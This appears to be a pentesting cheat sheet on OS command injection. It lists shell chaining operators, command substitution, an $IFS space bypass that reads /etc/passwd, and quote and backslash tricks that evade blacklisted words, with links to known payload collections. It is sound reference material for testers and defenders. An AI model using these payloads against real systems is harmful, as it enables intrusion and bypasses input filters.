 # Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)

### Space Bypass

Using **Internal Field Separator** `$IFS` to avoid using spaces on commands

```bash
cat${IFS}/etc/passwd
```

### Blacklisted Words

```bash
# Quotes
w'h'o'a'm'i'     # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems
wh''oami         # Both windows and linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
